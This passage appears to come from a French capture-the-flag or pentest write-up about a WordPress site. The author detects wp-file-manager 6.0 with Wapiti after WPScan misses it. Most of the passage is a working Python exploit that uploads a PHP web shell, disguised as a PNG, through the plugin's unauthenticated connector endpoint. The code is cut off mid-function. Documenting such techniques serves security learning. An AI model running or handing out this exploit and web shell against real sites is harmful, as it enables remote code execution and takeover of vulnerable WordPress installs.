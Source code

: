 > We will be deleting some of our unused wordpress plugins in future as security best practices.

Intéressant. Sauf que là plus rien : [WPScan](https://wpscan.com/wordpress-security-scanner) ne voit que le plugin *Akismet* qui n'a pas de vulnérabilités sérieuses... Étrange, le fonctionnement de *wpscan* étant pourtant de réaliser par défaut une énumération exhaustive des plugins.  

J'ai dégainé ce valeureux Wapiti et son module *wp\_enum*... Et vous savez quoi ?  

```plain
[*] Lancement du module wp_enum
Enumération des extensions WordPress :
wp-file-manager 6.0 détecté
----
Enumération des thèmes WordPress :
twentynineteen 1.2 détecté
```

Je ne sais pas si c'est le fait que *wpscan* tournait dans son image Docker mais il faut toujours de méfier des outils qu'on emploie quitte à en tester plusieurs (j'ai déjà eu des situations similaires avec des outils de bruteforce réseau comme Hydra/Ncrack/Medusa).  

On trouve sur exploit-db un exploit bash pour cette vulnérabilité. Mais j'ai une préférence pour Python alors je suis allé fouiller sur Github et le code n'est pas toujours beau à voir.  

Je me suis basé sur [cet exploit](https://github.com/kalidor/wp-file-manager_6.8) qui a le mérite d'utiliser Python 3 et je l'ai réécrit en mieux (c'est un avis personnel bien sûr mais ça réduit tout de même de 35 lignes pour faire la même chose avec des erreurs en moins) :  

```python
#!/usr/bin/env python3
import sys
from urllib.parse import urlparse
from string import ascii_lowercase
from random import choices
from pathlib import Path
from typing import Optional

import requests

def get_root_url(url: str) -> str:
    parts = urlparse(url)
    return f"{parts.scheme}://{parts.netloc}/"

def get_random_php_filename() -> str:
    return "".join(choices(ascii_lowercase, k=10)) + ".php"

def attack(url, filename: Optional[str] = None):
    sess = requests.Session()
    sess.verify = False
    if filename:
        payload = open(filename, "rb").read()
    else:
        payload = b"<pre><?php system($_GET['cmd']); ?></pre>"

    backdoor_filename = get_random_php_filename()
    response = sess.post(
        f"{url}/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php",
        files={
            "upload[]": (backdoor_filename, payload, "image/png"),
            "target": (None, "l1_Lw"),
            "cmd": (None, "upload")
        }
    )
    if response.status_code == 200:
        data = response.json()
        if len(data["added"]) > 0:
```